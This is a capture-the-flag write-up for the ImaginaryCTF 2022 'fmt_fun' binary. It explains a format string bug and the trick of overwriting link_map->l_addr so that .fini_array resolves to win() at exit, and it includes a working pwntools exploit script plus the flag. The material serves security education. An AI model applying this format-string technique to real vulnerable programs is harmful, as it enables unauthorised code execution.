


# ImaginaryCTF 2022 - pywrite

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [fmt_fun.zip](fmt_fun.zip)

There will be 2 files in zip:
- fmt_fun
- libc.so.6

Download and extract, then use `patchelf` to patch the libc to the binary. After that, we can get started!

# 1. Find bug

Decompiling with ghidra and we know there is a `win()` function which will give us flag. Analyzing `main()`, we can see it read input from user and then `printf()` with **Format String** bug.

When checking for all the defences, we know overwriting `@got` is impossible. That's all we can find. Let's move on! 

# 2. Idea

Attach with gdb, stop at `printf()` and analyze stack to see what can we overwrite:



The highlighted address is the address of `link_map` which is pointing to `l_addr`, and what happen in exit is that it will call `_dl_fini` first. In `_dl_fini`, there is a code that will add the `.fini_array` with value of `link_map->l_addr` and then will execute it:

```c
if (l -> l_info[DT_FINI_ARRAY] != NULL) {
    ElfW(Addr) * array =
        (ElfW(Addr) * )(l -> l_addr +
            l -> l_info[DT_FINI_ARRAY] -> d_un.d_ptr);
    unsigned int i = (l -> l_info[DT_FINI_ARRAYSZ] -> d_un.d_val /
        sizeof(ElfW(Addr)));
    while (i--> 0)
        ((fini_t) array[i])();
}
```

More information, you can read [here](https://activities.tjhsst.edu/csc/writeups/angstromctf-2021-wallstreet#writing-to-struct-link_map). So we will overwrite the `link_map->l_addr` to a number so that `.fini_array` add value of `link_map->l_addr` will point to `buf`, and we will put address of `win()` in `buf` so when it exit, it will call `win()` for us.

# 3. Exploit

```python
from pwn import *

exe = ELF('./fmt_fun_patched', checksec=False)
context.binary = exe
context.log_level = 'debug'

# p = process(exe.path)
p = remote('fmt-fun.chal.imaginaryctf.org', 1337)

payload = fit({
    0: b'%680c%26$n',
    0x20: exe.sym['win']
    })
p.sendlineafter(b'below:\n', payload)

p.interactive()
```

# 4. Get flag



Flag is `ictf{n0t_imp0ssibl3?_1b06af92}`